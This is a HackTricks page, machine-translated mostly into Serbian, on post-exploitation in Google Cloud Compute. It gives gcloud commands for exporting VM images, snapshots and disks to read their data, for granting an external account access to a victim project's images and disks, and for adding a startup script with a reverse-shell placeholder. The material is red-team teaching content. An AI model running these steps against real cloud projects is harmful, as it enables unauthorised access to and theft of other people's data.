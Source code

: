 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Za više informacija o Compute i VPC (Mreženje) proverite:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Izvoz i inspekcija slika lokalno

Ovo bi omogućilo napadaču da **pristupi podacima sadržanim unutar već postojećih slika** ili **napravi nove slike pokrenutih VM-ova** i pristupi njihovim podacima bez pristupa pokrenutom VM-u.

Moguće je izvesti sliku VM-a u bucket, a zatim je preuzeti i montirati lokalno pomoću komande:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Pre izvođenja ove akcije, napadač može zahtevati privilegije nad skladišnim rezervoarom i sigurno **privilegije nad cloudbuild** jer je to **usluga** koja će biti zatražena da izvrši izvoz.\
Pored toga, da bi ovo funkcionisalo, codebuild SA i compute SA trebaju privilegovane dozvole.\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` treba:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

A SA `<project-id>-compute@developer.gserviceaccount.com` treba:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Izvoz i inspekcija snimaka i diskova lokalno

Nije moguće direktno izvesti snimke i diskove, ali je moguće **transformisati snimak u disk, disk u sliku** i prateći **prethodni odeljak**, izvesti tu sliku da bi se inspektovala lokalno.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspekcija slike prilikom kreiranja VM-a

Sa ciljem pristupa **podacima pohranjenim u slici** ili unutar **aktivnog VM-a** iz kojeg je napadač **napravio sliku,** moguće je omogućiti spoljašnjem nalogu pristup slici:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
и онда креирајте нови ВМ из тога:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Ako niste mogli da date pristup svom spoljašnjem nalogu preko slike, mogli biste da pokrenete VM koristeći tu sliku u projektu žrtve i **naterate metapodatke da izvrše reverznu ljusku** za pristup slici dodajući parametar:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Sa ciljem pristupa **podacima pohranjenim na disku ili snimku, možete transformisati snimak u disk, disk u sliku i pratiti prethodne korake.**

Ili možete **dodeliti spoljašnjem nalogu pristup** disku (ako je početna tačka snimak, dodelite pristup snimku ili kreirajte disk iz njega):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Priključite disk** na instancu:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mountujte disk unutar VM-a:

1.  **SSH u VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifikujte Disk**: Kada ste unutar VM-a, identifikujte novi disk tako što ćete nabrojati disk uređaje. Obično ga možete pronaći kao `/dev/sdb`, `/dev/sdc`, itd.
3. **Formatirajte i Montirajte Disk** (ako je to novi ili sirovi disk):
*   Kreirajte tačku montiranja:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montirajte disk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Ako **ne možete dati pristup spoljnim projektima** za snimak ili disk, možda ćete morati da **izvršite ove radnje unutar instance u istom projektu kao snimak/disk**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
